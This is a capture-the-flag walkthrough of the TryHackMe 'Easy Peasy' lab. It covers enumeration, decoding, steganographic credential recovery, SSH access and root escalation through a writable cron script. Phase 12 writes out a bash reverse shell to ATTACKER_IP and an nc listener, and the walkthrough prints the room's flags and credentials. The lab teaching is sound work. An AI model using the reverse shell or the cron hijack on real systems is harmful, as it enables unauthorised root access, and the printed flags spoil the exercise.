---

# **Easy Peasy TryHackMe Room Walkthrough**

---

### **Executive Summary**

This room focused on a complete penetration testing workflow, beginning with service enumeration, continuing through web application discovery and information gathering, credential recovery through steganography and encoding analysis, gaining initial access via SSH, and finally escalating privileges to root through an insecure cron job configuration.

The room provided practical exposure to:

- Network enumeration with Nmap
- Web content discovery using Gobuster
- Source code analysis
- Working with common encodings (Base64, Base62, binary)
- Steganography using Stegcracker and Steghide
- SSH authentication
- Linux privilege escalation through writable cron scripts
- Reverse shell techniques

---

### **Target Information**

**Target IP:** 10.112.185.79

---

### **Phase 1 – Enumeration**

#### **Full Port Scan**

The first step was to identify exposed services and determine the attack surface.

```bash
nmap -sC -sV -T4 -A -p- 10.112.185.79
```



**Scan Results**

| Port | Service | Version |
| --- | --- | --- |
| 80 | HTTP | nginx 1.16.1 |
| 6498 | SSH | OpenSSH 7.6p1 |
| 65524 | HTTP | Apache 2.4.43 |

Key observations:

- Two separate web servers were running.
- SSH was configured on a non-standard port.
- Both web services exposed robots.txt files.

#### **Answers Discovered**

| Question | Answer |
| --- | --- |
| Open ports | 3 |
| Nginx version | 1.16.1 |
| Highest port service | Apache |

---

### **Phase 2 – Web Enumeration**

#### **Directory Discovery**

Gobuster was used to enumerate hidden content on the web server.

```bash
gobuster dir -u http://10.112.185.79 -w <wordlist>
```



A hidden directory was discovered:

```
/hidden/
```

Further enumeration revealed:

```
/hidden/whatever/
```

---

### **Phase 3 – Obtaining Flag 1**

Viewing the source code of:

```
http://10.112.185.79/hidden/whatever/
```

revealed a hidden HTML element:

```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```


The value appeared to be Base64 encoded.

**Decoding**

```bash
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
```

**Output:**

```
flag{f1rs7_fl4g}
```



#### **Flag 1**

```
flag{f1rs7_fl4g}
```

---

### **Phase 4 – Robots.txt Enumeration**

While investigating the Apache service on port 65524, the robots.txt file revealed unusual content.

```
User-Agent:*
Disallow:/

Robots Not Allowed

User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
```


The User-Agent value resembled an MD5 hash.

After decoding/cracking the hash, it revealed:

```
flag{1m_s3c0nd_fl4g}
```


#### **Flag 2**

```
flag{1m_s3c0nd_fl4g}
```

---

### **Phase 5 – Source Code Analysis**

Examining the source code of the Apache web page revealed another flag.

```html
Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}
```


#### **Flag 3**

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

---

### **Phase 6 – Discovering the Hidden Directory**

Additional source code review uncovered a hidden message.

```html
<p hidden>
its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu
</p>
```

The hint suggested Base62 encoding.

After decoding:



**Hidden Directory**

```
/n0th1ng3ls3m4tt3r
```

---

### **Phase 7 – Steganography**

Browsing to the hidden directory revealed an image.

```
http://10.112.185.79/n0th1ng3ls3m4tt3r
```


The image was downloaded for offline analysis.

#### **Password Discovery with Stegcracker**

A custom wordlist supplied by the room was used.

```bash
stegcracker binarycodepixabay.jpg easypeasy.txt
```

The attack successfully recovered the passphrase.


#### **Extracting Hidden Content**

```bash
steghide extract -sf binarycodepixabay.jpg
```

**Output:**

```
wrote extracted data to "secrettext.txt"
```

**Contents:**

```
username: boring

password:
01101001 01100011 01101111 01101110
01110110 01100101 01110010 01110100
01100101 01100100 01101101 01111001
01110000 01100001 01110011 01110011
01110111 01101111 01110010 01100100
01110100 01101111 01100010 01101001
01101110 01100001 01110010 01111001
```


---

### **Phase 8 – Binary Decoding**

The password was stored as binary data.

Decoding produced:

```
iconvertedmypasswordtobinary
```



**Recovered credentials:**

```
Username: boring
Password: iconvertedmypasswordtobinary
```

---

### **Phase 9 – Initial Access**

SSH was available on port 6498.

```bash
ssh boring@10.112.185.79 -p 6498
```

After authenticating successfully, a shell was obtained.



---

### **Phase 10 – User Flag**

After gaining access, user enumeration revealed the user flag.




**User Flag**

```
flag{n0wits33msn0rm4l}
```

---

### **Phase 11 – Privilege Escalation Enumeration**

Cron jobs were investigated.

```bash
cat /etc/crontab
```

Output:

```
* * * * * root cd /var/www/ && sudo bash .mysecretcronjob.sh
```


This cron job executed every minute as root.

Further inspection revealed:

```bash
cat /var/www/.mysecretcronjob.sh
```

```bash
#!/bin/bash
# i will run as root
```



The file was writable by the low-privileged user.

This represented a direct privilege escalation opportunity.

---

### **Phase 12 – Cron Job Exploitation**

A reverse shell payload was written into the script.

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > .mysecretcronjob.sh
```

A listener was started:

```bash
nc -lvnp 4444
```

Within one minute the cron job executed as root and connected back.



Root shell access was achieved.

---

### **Phase 13 – Root Flag**

Navigating to the root directory revealed:

```bash
cat /root/.root.txt
```

**Output:**

```
flag{63a9f0ea7bb98050796b649e85481845}
```

### **Root Flag**

```
flag{63a9f0ea7bb98050796b649e85481845}
```

---

### **Attack Path Summary**

1. Enumerated services with Nmap.
2. Discovered hidden directories using Gobuster.
3. Extracted Flag 1 from Base64 encoded source code.
4. Recovered Flag 2 from information exposed in robots.txt.
5. Found Flag 3 within page source comments.
6. Decoded a Base62 string to discover another hidden directory.
7. Downloaded an image and performed steganographic analysis.
8. Cracked the steganography passphrase using a supplied wordlist.
9. Extracted credentials hidden within the image.
10. Decoded a binary-encoded password.
11. Authenticated via SSH.
12. Enumerated cron jobs.
13. Discovered a root-owned cron job executing a writable script.
14. Replaced the script with a reverse shell payload.
15. Obtained a root shell and captured the final flag.

---

### **Lessons Learned**

#### **Enumeration Is Critical**

Several flags and clues were hidden in locations often overlooked:

- robots.txt
- HTML source code
- Hidden directories
- Alternate web servers

#### **Multiple Encodings Are Common**

The room required identification and decoding of:

- Base64
- Base62
- Binary

Recognizing encoding patterns is an important penetration testing skill.

#### **Steganography Can Hide Credentials**

Images may contain:

- Embedded files
- Hidden messages
- Credentials

Tools such as Stegcracker and Steghide can be extremely effective during investigations.

#### **Cron Jobs Are Common Privilege Escalation Targets**

Misconfigured scheduled tasks remain one of the most common Linux privilege escalation vectors.

A writable script executed by root effectively provides arbitrary code execution with elevated privileges.

---
